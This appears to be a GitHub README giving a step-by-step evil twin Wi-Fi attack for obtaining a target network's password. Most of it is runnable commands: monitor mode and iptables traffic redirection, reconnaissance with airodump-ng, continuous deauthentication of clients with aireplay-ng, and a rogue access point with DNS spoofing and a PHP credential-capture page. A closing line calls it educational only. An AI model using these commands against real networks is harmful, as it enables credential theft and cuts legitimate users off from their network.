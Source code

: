 
# Evil Twin Attack Guide

This guide explains how to conduct an evil twin attack to obtain the password for a target network.

![](eviltwin.jpg)

*Note: you need a network card capable of packet injection for this attack*

git clone the repo and follow the steps below.

## Step 1: Install required software 

```bash
# Update package lists and install required software 

sudo apt-get update 
sudo apt-get install hostapd dnsmasq apache2 php-cli

```


## Step 2: Configure the network interface

```bash

# Put the wireless interface into monitor mode 
sudo airmon-ng start wlan0 

# Check the monitor mode interface name 
iwconfig

# Bring up the wireless interface and assign an IP address
# CHANGE THE INTERFACE NAME ACCORDINGLY

ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0

# Add a route to the target network
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1

# Configure NAT to allow traffic to pass through the interface
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT

# Redirect traffic to port 80 to the fake AP
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1

# Execute this command to enable IP Forwarding:
echo 1 > /proc/sys/net/ipv4/ip_forward


``` 


## Step 3: Find the target network


```bash
# Use airodump-ng to find the target network 

airodump-ng wlan0
```

## Step 4: Deauthenticate clients from the target network

```bash
#Use aireplay-ng to deauthenticate clients from the target network 

sudo aireplay-ng --deauth 0 -a <mac-address-of-target-AP> wlan0

```

## Step 5: Start the attack

*Note: the .conf file are provided in the repo. Make sure you change the interface name and the ssid in these files*

Each of the following commands is to be run on a separate terminal

```bash
# Start the hostapd service with a configuration file 

hostapd hostapd.conf  

# Start the dnsmasq service with a configuration file 

dnsmasq -C dnsmasq.conf -d  

# Start the dnsspoof service on the wireless interface 

dnsspoof -i wlan0mon  

# Start a PHP server on all interfaces listening on port 80 

cd webserver

php -S 0.0.0.0:80

```

Note: This guide is for educational purposes only and should not be used for malicious purposes. It is important to always obtain proper authorization before conducting any security testing.
